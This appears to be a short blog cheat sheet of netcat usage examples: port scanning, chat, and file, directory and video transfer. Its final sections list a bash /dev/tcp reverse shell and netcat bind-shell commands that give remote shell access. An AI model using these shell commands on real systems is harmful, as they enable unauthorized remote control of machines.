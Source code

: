 ```yaml
---
layout: post
title: "Linux netcat examples"
description: ""
category: 
tags: [Linux]
---
```



### 端口扫描

nc -z -v -n 172.31.100.7 21-25

### Chat Server

Server: nc -l 1567

Client: nc 172.31.100.7 1567

### 文件传输

Server to Client: 

Server: nc -l 1567 < file.txt 

Client: nc -n 172.31.100.7 1567 > file.txt

Client to Server:

Server: nc -l 1567 > file.txt

Client: nc 172.31.100.23 1567 < file.txt

### 目录传输

Server: tar -cvf - dir_name | nc -l 1567

Client: nc -n 172.31.100.7 1567 | tar -xvf -

### 视频播放

Server: cat video.avi | nc -l 1567

Client: nc 172.31.100.7 1567 | mplayer -vo x11 -cache 3000 -

### Reverse Shell

nc -l -p 8080 -vvv

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

### Shell

nc -l 1567 -e /bin/bash -i

mkfifo /tmp/tmp\_fifo && cat /tmp/tmp\_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp\_fifo


